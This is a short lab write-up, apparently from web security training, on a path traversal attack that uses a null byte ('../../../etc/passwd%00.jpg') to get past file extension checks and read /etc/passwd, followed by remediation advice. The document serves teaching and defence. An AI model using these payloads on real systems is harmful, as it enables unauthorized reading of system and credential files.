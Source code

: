 ## 🧪 Lab: File Path Traversal - Validation of File Extension with Null Byte Bypass  
**Level**: Practitioner  
**Date**: June 16, 2025  
**Goal**: Read `/etc/passwd` even when the application validates file extensions (e.g., `.jpg`).

---

### 🧰 Tools  
- Burp Suite (Repeater / Interceptor)  
- URL Encoder

---

### 🧭 Steps

1. **Intercept the image request**  
   - Navigate to the product page and capture a request like:
     ```
     GET /image?filename=218.jpg
     ```

2. **Send to Repeater**

3. **Test direct traversal without extension**  
   - Try:
     ```
     filename=../../../etc/passwd
     ```
   - ❌ Request fails or blocked — `.jpg` extension required

4. **Try traversal with fake extension**  
   - Try:
     ```
     filename=../../../etc/passwd.jpg
     ```
   - ❌ Fails — no such file

5. **Bypass with Null Byte Injection**  
   - Inject a null byte before `.jpg`:
     ```
     filename=../../../etc/passwd%00.jpg
     ```
   - ✅ Server processes path before null byte and retrieves `/etc/passwd`

---

### 💣 Payload

```
../../../etc/passwd%00.jpg

```


---

### 💡 Observations
- Some applications validate extensions by checking string suffixes
- Null byte (`%00`) injection can terminate string early at the backend
- This tricks the system into processing the path before `.jpg` is even considered

---

### 🔒 Remediation
- Do not rely on string matching for extension validation  
- Use secure file APIs and path sanitization  
- Disable null byte interpretation at server level  
- Avoid exposing any user-controlled file paths

